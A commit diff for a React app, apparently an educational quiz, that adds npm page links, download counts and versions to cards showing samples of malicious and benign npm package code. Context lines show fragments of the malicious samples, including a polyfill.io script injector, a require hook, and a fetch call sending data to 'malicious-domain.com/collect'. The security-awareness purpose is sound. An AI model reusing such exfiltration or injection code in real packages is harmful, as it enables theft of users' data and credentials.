

Before and after one commit to vinit-aikido/npm-imposters, a React (Vite) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
feat: Add npm package homepages

```diff
--- a/src/components/SwipeCard.tsx
+++ b/src/components/SwipeCard.tsx
@@ -1,7 +1,7 @@
 import { useState } from 'react';
 import { Card } from '@/components/ui/card';
 import { Badge } from '@/components/ui/badge';
-import { Shield, AlertTriangle } from 'lucide-react';
+import { Shield, AlertTriangle, Download, Calendar, ExternalLink } from 'lucide-react';
 import { CodeExample } from '@/data/codeExamples';
 
 interface SwipeCardProps {
@@ -78,6 +78,29 @@ export const SwipeCard = ({ example, onSwipe, isTop }: SwipeCardProps) => {
           )}
         </div>
 
+        <div className="flex flex-wrap gap-3 text-xs text-muted-foreground">
+          <a
+            href={example.npmUrl}
+            target="_blank"
+            rel="noopener noreferrer"
+            className="flex items-center gap-1 hover:text-foreground transition-colors"
+          >
+            <ExternalLink className="w-3 h-3" />
+            <span>npm page</span>
+          </a>
+          <div className="flex items-center gap-1">
+            <Download className="w-3 h-3" />
+            <span>{example.weeklyDownloads}/week</span>
+          </div>
+          <div className="flex items-center gap-1">
+            <Calendar className="w-3 h-3" />
+            <span>v{example.version}</span>
+          </div>
+          <div className="text-muted-foreground/70">
+            {example.lastPublished}
+          </div>
+        </div>
+
         <div className="bg-background/50 rounded-md p-4 overflow-x-auto">
           <pre className="text-xs leading-relaxed">
             <code>{example.code}</code>
--- a/src/data/codeExamples.ts
+++ b/src/data/codeExamples.ts
@@ -6,6 +6,10 @@ export interface CodeExample {
   explanation: string;
   severity?: 'critical' | 'high' | 'medium';
   cveId?: string;
+  npmUrl: string;
+  weeklyDownloads: string;
+  lastPublished: string;
+  version: string;
 }
 
 export const codeExamples: CodeExample[] = [
@@ -16,6 +20,10 @@ export const codeExamples: CodeExample[] = [
     isMalware: true,
     severity: 'critical',
     cveId: 'AIKIDO-2024-10145',
+    npmUrl: 'https://www.npmjs.com/package/polyfill-io-loader',
+    weeklyDownloads: '2,450',
+    lastPublished: '2024-06-18',
+    version: '1.0.0',
     code: `// polyfill-io-loader v1.0.0
 const script = document.createElement('script');
 script.src = 'https://cdn.polyfill.io/v3/polyfill.min.js';
@@ -37,6 +45,10 @@ fetch('https://malicious-domain.com/collect', {
     isMalware: true,
     severity: 'critical',
     cveId: 'AIKIDO-2024-10143',
+    npmUrl: 'https://www.npmjs.com/package/@isoden/polyfill-io-html-webpack-plugin',
+    weeklyDownloads: '1,834',
+    lastPublished: '2024-06-20',
+    version: '1.1.2',
     code: `class PolyfillPlugin {
   apply(compiler) {
     compiler.hooks.compilation.tap('Plugin', (compilation) => {
@@ -60,6 +72,10 @@ fetch('https://malicious-domain.com/collect', {
     isMalware: true,
     severity: 'critical',
     cveId: 'AIKIDO-2024-10144',
+    npmUrl: 'https://www.npmjs.com/package/html-webpack-polyfill-runtime-plugin',
+    weeklyDownloads: '982',
+    lastPublished: '2024-06-19',
+    version: '2.0.1',
     code: `module.exports = function(options) {
   return {
     name: 'polyfill-runtime',
@@ -78,6 +94,10 @@ fetch('https://malicious-domain.com/collect', {
     packageName: 'noblox.js-vps',
     isMalware: true,
     severity: 'critical',
+    npmUrl: 'https://www.npmjs.com/package/noblox.js-vps',
+    weeklyDownloads: '15,673',
+    lastPublished: '2024-03-14',
+    version: '1.2.5',
     code: `const originalRequire = require;
 require = function(module) {
   const result = originalRequire(module);
@@ -104,6 +124,10 @@ require = function(module) {
     packageName: 'eslint-scope-compromised',
     isMalware: true,
     severity: 'critical',
+    npmUrl: 'https://www.npmjs.com/package/eslint-scope',
+    weeklyDownloads: '45,892,103',
+    lastPublished: '2018-07-12',
+    version: '3.7.2',
     code: `const https = require('https');
 const os = require('os');
 
@@ -126,6 +150,10 @@ try {
     id: 6,
     packageName: 'lodash',
     isMalware: false,
+    npmUrl: 'https://www.npmjs.com/package/lodash',
+    weeklyDownloads: '58,234,567',
+    lastPublished: '2021-02-20',
+    version: '4.17.21',
     code: `// lodash v4.17.21
 function chunk(array, size = 1) {
   size = Math.max(size, 0);
@@ -150,6 +178,10 @@ function chunk(array, size = 1) {
     id: 7,
     packageName: 'axios',
     isMalware: false,
+    npmUrl: 'https://www.npmjs.com/package/axios',
+    weeklyDownloads: '45,892,341',
+    lastPublished: '2024-01-15',
+    version: '1.6.0',
     code: `// axios v1.6.0
 function request(config) {
   return new Promise((resolve, reject) => {
@@ -177,6 +209,10 @@ function request(config) {
     id: 8,
     packageName: 'react',
     isMalware: false,
+    npmUrl: 'https://www.npmjs.com/package/react',
+    weeklyDownloads: '26,782,456',
+    lastPublished: '2023-06-16',
+    version: '18.2.0',
     code: `// react v18.2.0
 function useState(initialState) {
   const dispatcher = resolveDispatcher();
@@ -201,6 +237,10 @@ function resolveDispatcher() {
     id: 9,
     packageName: 'express',
     isMalware: false,
+    npmUrl: 'https://www.npmjs.com/package/express',
+    weeklyDownloads: '39,456,289',
+    lastPublished: '2022-10-08',
+    version: '4.18.2',
     code: `// express v4.18.2
 function createApplication() {
   const app = function(req, res, next) {
@@ -227,6 +267,10 @@ function createApplication() {
     id: 10,
     packageName: 'validator',
     isMalware: false,
+    npmUrl: 'https://www.npmjs.com/package/validator',
+    weeklyDownloads: '12,345,678',
+    lastPublished: '2023-09-01',
+    version: '13.11.0',
     code: `// validator v13.11.0
 function isEmail(str, options = {}) {
   const parts = str.split('@');
```
